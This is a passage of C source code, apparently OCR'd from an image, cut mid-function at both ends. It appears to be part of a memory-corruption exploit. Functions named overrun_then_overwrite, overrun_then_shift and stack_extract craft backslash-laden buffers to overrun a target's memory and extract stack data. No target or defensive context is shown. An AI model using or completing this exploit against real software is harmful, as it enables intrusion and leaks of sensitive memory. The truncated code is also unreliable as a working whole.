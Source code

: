 ```c
  for (i = 0; i < offset; ++i)
    msg[i] = 'a';
  for (j = 0; j < size; ++j)
  {
    if (data[j] == '\0' || data[j] == '\\') {
      msg[i++] = '\\';
      msg[i++] = '\\';
      msg[i++] = '\\';
    }
    msg[i++] = data[j] ? : 'x';
  }
  msg[i++] = '\\';
  msg[i++] = '\0';
  assert(i == offset + datalen);

  if (write_line_and_update(ctx, msg, sizeof(msg)) < 0)
    return -1;

  for (i = i - 1; ~i; --i)
  {
    if (msg[i] != 'x')
      continue;
    msg[i] = '\0';
    if (write_line_and_update(ctx, msg, sizeof(msg)) < 0)
      return -1;
  }

  return 0;
}

static int
overrun_then_shift(struct context *ctx, size_t offset)
{
  char data[128];
  size_t i;

  assert(offset >= 2 && offset < sizeof(data));
  for (i = 0; i < offset - 2; ++i)
    data[i] = 'a';
  data[offset - 2] = '\\';

  if (overrun_then_overwrite(ctx, data, offset - 1) < 0)
    return -1;

  for (i = 0; i < sizeof(data); ++i)
    data[i] = '\\';

  if (write_line_and_update(ctx, data, sizeof(data)) < 0)
    return -1;

  return 0;
}

static int
stack_extract(struct context *ctx, size_t off, size_t len, char *data)
{
  size_t pos;
  char byte;

  assert(off >= 4);
  while (len != 0)
  {
    for (pos = off; pos >= 4; --pos)
```